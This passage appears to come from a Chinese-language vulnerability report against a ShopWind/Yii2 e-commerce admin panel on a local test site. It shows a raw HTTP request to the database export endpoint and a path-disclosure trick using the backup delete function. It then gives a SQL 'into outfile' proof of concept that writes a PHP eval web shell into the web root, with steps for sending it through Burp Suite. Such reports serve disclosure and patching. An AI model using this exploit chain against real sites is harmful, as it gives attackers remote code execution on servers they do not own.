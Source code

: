 ```sql
POST /admin/db/export.html HTTP/1.1
Host: local.rapoo.top
Content-Length: 12
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://local.rapoo.top
Referer: http://local.rapoo.top/admin/db/backup.html
Accept-Language: zh-CN,zh;q=0.9
Cookie: switchHistory=website%2Fdb; UM_distinctid=1803c2602eb210-05a24410a265d9-1734337f-1fa400-1803c2602ec659; bjui_theme=purple; XDEBUG_SESSION=PHPSTORM; CNZZDATA1618465=cnzz_eid%3D555001816-1650273840-%26ntime%3D1650346840; advanced-backend=p78poo8n9hl27mks17hf2vlgll; _csrf-backend=ad56049615f6ba364b544685b88bf7aef7baeca4c875a1af3133961cccb509bfa%3A2%3A%7Bi%3A0%3Bs%3A13%3A%22_csrf-backend%22%3Bi%3A1%3Bs%3A32%3A%22y-o088Wj2bIB0WpJf8fRaiplRoDM9rDq%22%3B%7D; goodsBrowseHistory=c28cb2b6cbbb56efe1b54af4962a1184b1ff4c069830e85977639ad55216dd9ba%3A2%3A%7Bi%3A0%3Bs%3A18%3A%22goodsBrowseHistory%22%3Bi%3A1%3Bs%3A2%3A%2226%22%3B%7D; advanced-frontend=bhikf56hlq22mu402s14in6d6e; _csrf-frontend=ec2187396433327b12bd8538772fae89ba08815dcf64c739e37d57d5d43e1c8fa%3A2%3A%7Bi%3A0%3Bs%3A14%3A%22_csrf-frontend%22%3Bi%3A1%3Bs%3A32%3A%22As8fd2CCmnh4ExTtegRpqbV4C9r-f4oO%22%3B%7D
Connection: close

id=0&start=0
```

5.2 getshell with into outfile

条件是

1.根权限 

2.网站的绝对路径，并具有写入权限。您可以使用 outfile 和 into dumpfile 来写入 

使用访问和删除数据库备份的功能，获取网站的绝对路径。删除不存在的文件时，可以获取网站目录

```text
http://local.rapoo.top/admin/db/delete.html?backup_name=20220425_1
```

![image](https://user-images.githubusercontent.com/54017627/168497060-f357f235-8471-4331-9513-b2ec5adc5b75.png)

网站路径如下： 

D:\phpstudy_pro\WWW\local.rapoo.top\yii2-shopwind-h5\frontend\web 

然后我们可以使用以下POC

```sql
select 1,"<?php eval($_REQUEST[8])?>" into outfile 'D:/phpstudy_pro/WWW/local.rapoo.top/yii2-shopwind-h5/frontend/web/shell.php'
```

使用 burpsuite 发送以下两个数据包。每次都需要修改备份文件名
![image](https://user-images.githubusercontent.com/54017627/168497103-ef18017e-221e-44b5-8122-60ade502b510.png)

![image](https://user-images.githubusercontent.com/54017627/168497107-83000416-a997-4848-be02-e4ba050f51ac.png)
